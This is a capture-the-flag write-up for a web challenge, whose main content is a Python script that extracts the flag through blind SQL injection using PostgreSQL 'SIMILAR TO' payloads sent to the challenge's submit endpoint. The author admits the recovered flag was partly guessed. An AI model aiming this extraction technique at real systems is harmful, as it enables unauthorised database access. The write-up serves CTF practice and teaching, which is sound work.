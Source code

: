 this is some classic blind sqli with filtering of all characters that are not alphabets,numbers or the characters ' _ { }

The challenge also uses a Postgre backend so we need to use its corresponding queries
Hence all I did is use the ``` SIMILAR TO ``` query to guess the characters.
here is the python script I wrote in order to solve the challenge
```
import requests

url = "https://penguin.chall.lac.tf/submit"
payloadinit = "' or name similar to 'lactf{"
payload = ""
underscores = ""
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_"
flag = ""
un=0
for i in range(0,100):
    underscores += '_'
    un += 1
    r = requests.post(url,data={"username":payloadinit + underscores})
    if r.status_code == 200:
        print(payloadinit + underscores)
        break
try:
    for i in range(un):
        underscores = ""
        for k in range(un - i - 1):         #since we're keeping the closing bracket instead of the _ in the end, I reduced the number of underscores by 1
            underscores += '_'
        for j in range(len(charset)):
            payload = payloadinit + flag + charset[j] + underscores + '}'
            r = requests.post(url,data={"username":payload})
            if r.status_code == 200:
                print("found=>" + payload)
                print("yaay")
                flag += charset[j]
                break
            else:
                print("\r" + payload, end="")
except KeyboardInterrupt:
    print(r.text)
    print(payload)

    #lactf{_0stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}      => idk why but this was the flag I got from running the script but by guesswork, I figured the flag should be
    #lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}

```
